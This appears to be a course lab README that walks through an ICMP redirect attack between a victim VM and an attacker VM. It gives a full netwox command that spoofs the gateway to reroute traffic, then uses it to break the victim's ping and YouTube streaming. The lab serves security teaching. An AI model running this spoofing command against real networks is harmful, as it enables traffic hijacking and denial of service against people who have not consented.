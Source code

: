 ## ICMP Redirect Attack

### Requirement

In this lab, you will disrupt a victim machine's ICMP traffic using the ICMP redirect attack; and then, using the same attack, you disrupt a victim's video streaming service.

### Setup

2 Linux VMs. VM1 as the victim; VM2 as the attacker. The 2 VMs do not need to be in the same network - however, this lab has only been tested when the two VMs are in the same network. The following is the IP addresses for the VMs used in this README.

| VM  |  IP Address   |   Role   |
|-----|---------------|----------|
| VM1 | 172.16.77.128 |  victim  |
| VM2 | 172.16.77.129 | attacker |

### Preparation steps:

This attack only requires one netwox command, let's prepare the command first. This command is: sudo netwox 86 --device "ens33" --filter "src host victim_ip_address" --gw "attacker_ip_address" --src-ip "trusted_gateway_ip_address" --code 1

what this command does is: the attacker, mimicking the default gateway, sends an icmp redirect message to tell the victim: hey, please, going forward, use the attacker's ip address as your new gateway.

1. if the attacker's network interface card is not named "ens33", then change "ens33" to the network interface card's name.
2. replace "victim_ip_address" with your victim's IP address.
3. replace "attacker_ip_address" with your attacker's IP address.
4. find "trusted_gateway_ip_address" with netstat -r command. Following is an example, run netstat -r on the victim VM.

```console
[02/14/22]seed@VM:~$ netstat -r
Kernel IP routing table
Destination     Gateway         Genmask         Flags   MSS Window  irtt Iface
default         172.16.77.2     0.0.0.0         UG        0 0          0 ens33
link-local      *               255.255.0.0     U         0 0          0 ens33
172.16.77.0     *               255.255.255.0   U         0 0          0 ens33
[02/14/22]seed@VM:~$ 
```

The above command says 172.16.77.2 is the default gateway, so that's the gateway the victim machine trusts. Therefore, let's assume the victim's ip address is 172.16.77.128, and the attacker's ip address is 172.16.77.129, then we should come up with this following command:

sudo netwox 86 --device "ens33" --filter "src host 172.16.77.128" --gw "172.16.77.129" --src-ip "172.16.77.2" --code 1

question: can you find out what "--code 1" means?

**troubleshooting**: if the netstat -r does not show the ip address of your gateway, you can use this other command:

```console
[05/23/22]seed@VM:~$ ip route show
default via 172.16.77.2 dev ens33 onlink 
142.250.0.0/16 dev tun0  scope link 
169.254.0.0/16 dev ens33  scope link  metric 1000 
172.16.77.0/24 dev ens33  proto kernel  scope link  src 172.16.77.128 
192.168.53.0/24 dev tun0  scope link 
192.168.53.0/24 dev tun0  proto kernel  scope link  src 192.168.53.5 
```

this command also shows, 172.16.77.2 is VM1's default gateway.

### Attack steps:

#### Part 1

1. victim, run: 

```console
$ ping www.google.com
```

make sure your ping command works and you do get responses from google, otherwise this lab makes no sense.

this screenshot shows ping works:

![alt text](lab-icmp-ping-works.png "ping works at first")

if ping works, press ctrl-c to stop the ping command and move on to step 2.

2. attacker, run that attack command: 

```console
$ sudo netwox 86 --device "ens33" --filter "src host 172.16.77.128" --gw "172.16.77.129" --src-ip "172.16.77.2" --code 1
```

![alt text](lab-icmp-attack-command.png "launch the attack")

3. victim, run: 

```console
$ ping www.google.com
```

this time it may still succeed, or at least you will still get some responses like this:

![alt text](lab-icmp-ping-partially-works.png "ping only gets some reponses")

4: attacker, press ctrl-c to stop the attack command.

5: victim, run: 

```console
$ ping www.google.com
```

this time it should fail, thus it proves the attack is successful:

![alt text](lab-icmp-ping-fails.png "ping fails")

#### Part 2

the next two steps attempt a new attack which disrupts the victim's video streaming service:

6: victim, open firefox, watch some youtube video.

7: attacker, run the exact same attack command as before: 

```console
$ sudo netwox 86 --device "ens33" --filter "src host 172.16.77.128" --gw "172.16.77.129" --src-ip "172.16.77.2" --code 1
```

if successful, victim won't be able to watch the youtude video. The following two screenshots show before pressing enter and after pressing enter (to execute the attacking command):

before pressing enter:

![alt text](lab-icmp-youtube-before-enter.png "before pressing enter")

after pressing enter: 

![alt text](lab-icmp-youtube-after-enter.png "after pressing enter")

This second screenshot shows the attack is successful and this concludes this lab.

**Note**: due to the buffering effect, the video won't be stopped immediately, you may need to wait for a few seconds or maybe one minute until the buffered content has been played.
